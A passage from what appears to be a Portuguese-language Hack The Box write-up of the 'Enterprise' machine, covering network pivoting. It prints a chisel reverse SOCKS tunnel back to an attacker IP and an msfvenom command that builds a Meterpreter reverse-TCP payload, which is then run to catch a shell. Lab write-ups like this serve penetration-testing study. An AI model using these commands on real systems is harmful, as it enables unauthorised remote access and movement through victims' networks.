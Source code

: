 Ainda se falando de Chisel podemos facilitar um pouco, um pouco não, muito quando falamos de proxysocks (mas o ideal é entender o que está acontecendo, e para isso o cenário acima descrito foi o melhor)

## Setamos nosso Server

./chisel server -p 8000 --reverse na nossa máquina local

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy.png)

## Setando o Cliente

./chisel client 10.10.14.40:8000 R:socks

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy4.png)

Agora conectamos na database

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy3.png)

Simples assim! Esse chisel é uma excelente ferramenta para se saber como usar, muito útil em diversos cenários

# Pivoting com Meterpreter

Bom, agora até fico sem graça de demonstrar o metasploit framework nesse caso, mas é interessante claro e sempre válido....

Vamos lá, primeiro passo é criar um binário malicioso pelo msfvenom que nos de um shell reverso na máquina

> msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=5555 -f elf -o msf.bin

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_meter.png)

Agora setamos o handler pra receber essa conexão de volta

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_meter1.png)

Passamos pra máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_meter2.png)

Executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_meter3.png)

Recebemos a conexão na Kali

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_meter4.png)

Agora habilitamos o módulo socks4a
